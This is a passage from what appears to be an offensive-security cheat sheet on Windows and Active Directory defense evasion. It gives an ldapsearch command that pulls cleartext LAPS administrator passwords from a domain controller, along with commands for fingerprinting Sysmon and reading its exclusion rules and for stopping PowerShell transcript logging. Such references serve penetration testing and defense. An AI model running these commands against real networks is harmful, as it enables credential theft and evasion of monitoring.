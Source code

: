 For more information about that technique refer to [T1036 - Masquerading](https://attack.mitre.org/techniques/T1036/)

##### LAPS Evasion

In some organizations, there are *Organization Unit* where administrators or members of the helpdesks have full control access of a computer.
This means that they we have one of those accounts, we can query the Domain Controller for such passwords as LAPS stores it’s information in Active Directory:

- The expiration time: ms-Mcs-AdmPwdExpirationTime
- And the actual password in clear text: ms-Mcs-AdmPwd

```bash
ldapsearch -x -h 192.168.80.10 -D "USERNAME" -w PASSWORD -b "dc=BASELDAP,dc=info" "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```

##### Sysmon



```bash
Get-Process | Where-Object { $_.ProcessName -eq "Sysmon" }
Get-CimInstance win32_service -Filter "Description = 'System Monitor service'"
Get-Service | where-object {$_.DisplayName -like "*sysm*"}
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\WINEVT\Channels\Microsoft-Windows-Sysmon/Operational
ls HKCU:\Software\Sysinternals
sysmon -c
findstr /si '<ProcessCreate onmatch="exclude">' C:\tools\*
(Get-SysmonConfiguration).Rules
```

##### Powershell Transcript

The Start-Transcript and Stop-transcript cmdlets let you record all of your activities in the PowerShell console to a text file.

```bash
Stop-Transcript # Stop recording
```

##### Powershell Restriction

##### PowerShell Constrained Language Mode

Constrained language mode limits the capability of PowerShell to base functionality removing advanced feature support such as .Net & Windows API calls and COM access.

```powershell
$ExecutionContext.SessionState.LanguageMode
FullLanguage
$ExecutionContext.SessionState.LanguageMode = "ConstrainedLanguage"
$ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage
```
